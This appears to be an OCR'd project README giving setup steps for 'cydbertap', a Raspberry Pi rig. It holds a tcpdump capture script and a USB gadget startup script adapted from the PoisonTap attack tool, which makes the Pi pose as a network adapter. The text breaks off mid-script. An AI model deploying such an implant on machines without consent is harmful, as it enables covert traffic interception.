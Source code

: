                 }

1.  mkdir /home/pi/cydbertap

1.  mkdir /home/pi/cydbertap/pcaps

1.  created file /home/pi/cydbertap/capture-packets.sh

            #!/bin/bash
            cd /home/pi/cydbertap
            count=1
            while [ $count -le 6 ] # splits 30 minutes across 6 files
            do
            if [ $count -le 6 ]
             then
             FILETIME=$(date +"%Y%m%d-%H%M%S") #gives date in format YYYYMMDD-HHMMSS
             FILENAME="PC-"$FILETIME".pcap" #Sets filename
             tcpdump -Z root -w $FILENAME -G 300 -W 1 #Runs TCPDump as root captures 5 mins
             fi
             (( count++ ))
            done

1.  chmod 755 /home/pi/cydbertap/capture-packets.sh

1.  chown pi:pi /home/pi/cydbertap/capture-packets.sh

1.  created file /home/pi/cydbertap/pi\_startup.sh

            #!/bin/sh
            # PoisonTap by samy kamkar http://samy.pl/poisontap 01/08/2016
            # If you find this doesn't come up automatically as an ethernet device
            # change idVendor/idProduct to 0x04b3/0x4010
            cd /sys/kernel/config/usb_gadget/
            mkdir -p poisontap
            cd poisontap

            #echo 0x04b3 > idVendor # IN CASE BELOW DOESN'T WORK
            #echo 0x4010 > idProduct # IN CASE BELOW DOESN'T WORK
            echo 0x1d6b > idVendor # Linux Foundation
            echo 0x0104 > idProduct # Multifunction Composite Gadget

            echo 0x0100 > bcdDevice # v1.0.0
            echo 0x0200 . bcdUSB # USB2
            mkdir -p strings/0x409
            echo "badc0deddeadbeef" > strings/0x409/serialnumber
            echo "Samy Kamkar" > strings/0x409/manufacturer
            echo "PoisonTap" > strings/0x409/product
            mkdir -p configs/c.1/strings/0x409
            echo "Config 1: ECM network" > configs/c.1/strings/0x409/configuration
            echo 250 > configs/c.1/MaxPower
            mkdir -p functions/acm.usb0
            ln -s functions/acm.usb0 configs/c.1/
            # End functions
            mkdir -p functions/ecm.usb0
            # first byte of address must be even
            HOST="48:6f:73:74:50:43"
            SELF="42:61:64:55:53:42"
            echo \$HOST > functions/ecm.usb0/host_addr